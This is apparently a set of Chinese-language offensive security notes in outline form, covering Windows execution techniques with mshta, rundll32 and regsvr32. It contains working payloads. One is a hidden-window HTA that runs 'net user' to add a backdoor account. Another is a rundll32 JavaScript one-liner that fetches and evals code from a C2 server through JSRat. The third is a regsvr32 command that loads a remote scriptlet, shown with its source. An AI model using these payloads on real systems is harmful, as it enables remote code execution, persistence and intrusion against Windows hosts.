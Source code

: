 - mshta

	- 远程执行

		- <HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Window.ReSizeTo 0, 0
Window.moveTo -2000,-2000
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "cmd.exe /c net user test password /add" // 这里填写命令
self.close
</script>
<body>
demo
</body>
</HEAD> 
</HTML>
		- mshta http://192.168.28.128/run.hta

- rundll32

	- C2框架JSRat

		- 仅为rundll32.exe和regsvr32.exe生成恶意程序
https://github.com/Hood3dRob1n/JSRat-Py.git
./JSRat.py -i lhost -p lport
url访问查看恶意代码

		- rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://192.168.28.131:8888/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}

- regsvr32

	- 执行命令

		- regsvr32.exe /u /n /s /i:http://192.168.28.131:8888/file.sct scrobj.dll
		- <?XML version="1.0"?>
<scriptlet>
<registration
    progid="ShortJSRAT"
    classid="{10001111-0000-0000-0000-0000FEEDACDC}" >
    <script language="JScript">
        <![CDATA[
            ps  = "cmd.exe /c calc.exe";
            new ActiveXObject("WScript.Shell").Run(ps,0,true);
        ]]>
</script>
</registration>
</scriptlet>

- MSXSL.EXE
